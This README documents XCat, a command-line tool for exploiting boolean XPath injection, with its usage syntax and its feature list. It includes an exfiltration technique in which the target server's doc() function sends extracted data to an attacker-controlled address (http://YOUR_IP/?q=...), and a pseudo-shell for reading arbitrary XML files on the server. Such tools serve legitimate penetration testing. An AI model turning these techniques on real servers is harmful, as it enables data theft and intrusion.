 XCat
====

XCat is a command line program that aides in the exploitation of XPath injection vulnerabilities.
It boasts a wide range of features and can utilize the more advanced features of the XPath 2.0 specification (pattern matching, unicode normilization and even http requests) or gracefully degrade to using XPath 1.0 if they are not available.

XCat is built to exploit boolean XPath injections (Where only one bit of data can be extracted in one request) and it requires you to manually identifiy the exploit first, this does not do that for you.

Features
--------
* Exploits both GET and POST attacks
* Extracts all nodes, comments, attributes and data from the entire XML document
* One file, two dependancies ([Python 2.7+](http://www.python.org/download/releases/2.7.2/) and [cElementTree](http://effbot.org/downloads/#elementtree))
* Parallel requests (adjustable thread pool size)
* XPath 2.0 supported (with graceful degrading to 1.0)
* [Regex](http://www.w3.org/TR/xpath-functions/#func-matches) pattern matching to reduce character search space
* [Unicode normalization](http://www.w3.org/TR/xpath-functions/#func-normalize-unicode)
* Advanced data postback through HTTP (see below)
* Arbitrarily read XML files on the servers file system via the doc() function (see below)

Usage
-----
	usage: main.py [-h] [--method {GET,POST}] [--arg POST_ARGUMENT]
	               [--true TRUE_KEYWORD] [--false FALSE_KEYWORD]
	               [--max_search SEARCH_LIMIT] [--error ERROR_KEYWORD]
	               [--timeout TIMEOUT] [--threadpool POOLSIZE]
	               [--stepsize STEP_SIZE] [--xversion {1,2,auto}] [--lowercase]
	               [--regex] [--connectback] [--connectbackip CONNECTBACK_IP]
	               [--connectbackport CONNECTBACK_PORT]
	               [--notfoundstring NOTFOUNDCHAR] [--fileshell]
	               URL

### Simple usage with the example application
Check out the [readme](src/example_application/README.md) to try out XCat with the provided example application.

HTTP Postback / doc function
----------------------------
Possibly the most advanced feature of XCat is its 'HTTP postback' feature. The XPath 2.0 schema defines a function called [doc](http://www.w3.org/TR/xpath-functions/#func-doc) which allows the programmer to load external documents from the file system or even from a remote network resource via HTTP/HTTPS. If the doc function is enabled and working then XCat will use it where possible to greatly speed up document retrieval times. It does this by running a small HTTP server within the program which listens on a specified port and by then calling the doc() function with the currently targetted node's data URI encoded and appended to a query. This means the XPath library will make a HTTP request to your IP (requires the port to be forwarded and/or a public IP) in the following format:

	http://YOUR_IP/?q=some%20data%20goes%here

This is far more efficient than iterating over the string character by character and can greatly reduce the retrieval times.

You can (ab)use this function to load XML file on the system, as long as you have read permissions over it, allowing you to retrieve lots of lovely XML configuration files - you can jump into a pseudo-shell within XCat by using the --fileshell flag and enter any file path.
